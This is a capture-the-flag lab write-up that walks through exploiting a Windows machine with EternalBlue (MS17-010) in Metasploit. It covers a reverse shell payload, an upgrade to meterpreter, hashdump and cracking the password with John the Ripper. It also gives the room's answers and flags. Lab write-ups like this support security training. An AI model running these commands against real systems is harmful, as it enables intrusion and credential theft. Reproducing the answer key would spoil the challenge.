# Blue

Exploit a Windows machine via EternalBlue (MS17-010) and escalate privileges.

## Reconnaissance

Initial nmap scan:

```bash
nmap -sS -Pn -A -p- -T5 10.10.78.77
```

**How many ports are open with a port number under 1000?**  
**Answer:** `3`



**What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**

Check for MS17-010 specifically:

```bash
nmap -Ss -Pn -p 445 10.10.78.77 --script smb-vuln-ms17-010.nse
```



**Answer:** `ms17-010`

---

## Gaining Access

Start Metasploit:

```bash
msfconsole
```

Search for the exploit:

```bash
search ms17-010
```



**Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/……..)** 

**Answer:** `exploit/windows/smb/ms17_010_eternalblue`

Select and configure the exploit:

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
```



**Show options and set the one required value. What is the name of this value? (All caps for submission)**

**Answer:** `RHOSTS`

Set the target IP:

```bash
set RHOSTS 10.10.78.77
```



**Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

Set the payload:

```bash
set payload windows/x64/shell/reverse_tcp
```



**With that done, run the exploit!**

```bash
run
```



Wait for the shell to be established. You may need to press enter or background and retry if it fails initially.

---

## Privilege Escalation

**If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)**

Background the shell and convert to meterpreter:

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
options
```



**Answer:** `post/multi/manage/shell_to_meterpreter`

**Select this (use MODULE_PATH). Show options, what option are we required to change?**

**Answer:** `SESSION`

Set the session ID:

```bash
set SESSION 1
set LHOST 10.10.78.77
run
```



**Once the meterpreter shell conversion completes, select that session for use.**

Switch to the meterpreter session:

```bash
sessions -i 1
```

**Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.**

Verify privileges and migrate to a stable process:

```bash
getsystem
ps
```

Find a process running as NT AUTHORITY\SYSTEM and migrate:

```bash
migrate 2596
```



---

## Hash Dumping

**Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

```bash
hashdump
```



**Answer:** `Jon`

**Copy this password hash to a file and research how to crack it. What is the cracked password?**

Copy Jon's hash to a file and crack it with John the Ripper:

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



**Answer:** `alqfna22`

---

## Capturing Flags

**Flag1? This flag can be found at the system root.**

Navigate to C:\ and read the first flag:

```bash
cd C:\\
cat flag1.txt
```

**Answer:** `flag{access_the_machine}`

**Flag2? his flag can be found at the location where passwords are stored within Windows.**

Search for flag2 in the SAM database location:

```bash
search -f flag2.txt
cd Windows\\System32\\config\\
cat flag2.txt
```

**Answer:** `flag{sam_database_elevated_access}`

**flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.**

Navigate to the user's Documents folder:

```bash
cd C:\\Users\\Jon\\Documents
cat flag3.txt
```



**Answer:** `flag{admin_documents_can_be_valuable}`
